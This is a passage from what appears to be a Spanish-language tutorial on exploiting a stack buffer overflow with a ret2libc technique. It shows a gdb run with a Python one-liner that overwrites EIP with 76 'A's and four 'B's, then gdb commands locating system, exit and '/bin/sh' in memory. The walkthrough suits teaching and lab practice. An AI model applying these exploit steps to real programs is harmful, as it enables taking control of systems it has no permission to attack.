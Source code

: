 Como resultado obtenemos **76**, ese sera el número de **"A"** que imprimiremos seguidas de **4 bits** que serán nuestras **"B"**.

Sí como resultado en el **EIP** obtenemos nuestras **"B"** en hexadecimal **(0x42)** significa que tenemos efectivamente el control del **EIP**.

```python
r $(python -c 'print "A"*76 + "B"*4')
```

![Segmentation Fault](/assets/images/eipcontrol.png)

### 3. Encontramos la dirección de system,exit y /bin/sh.

```python
p system
p exit
find "/bin/sh" all
```

![Segmentation Fault](/assets/images/direccionesDelSistema.png)
